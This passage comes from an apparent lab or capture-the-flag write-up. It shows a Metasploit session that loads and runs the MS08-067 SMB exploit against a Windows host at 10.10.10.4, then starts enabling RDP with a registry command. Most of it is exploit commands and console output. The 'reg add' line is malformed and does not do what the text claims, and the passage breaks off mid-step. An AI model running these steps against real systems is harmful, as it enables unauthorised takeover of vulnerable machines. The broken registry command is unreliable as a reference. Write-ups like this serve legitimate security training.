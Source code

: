 ``` ruby
msf5 > use ms08_067_netapi

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


[*] Using exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > run
```


### Getting RDP.

Remeber RDP from earlier? Now that I have system access lets get a full RDP session for the lolz.

Checking back to our port scan with nmap I see that 3389 is closed, we need to open it and potentially set a couple of reg keys to get access. As system we also do not have a password to login with, we will need to take of that as well.

First lets take care of the RDP, by explicitly enabling the service (stricly not required here, but useful reference)

``` cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v Netsh.exe
```

outputs

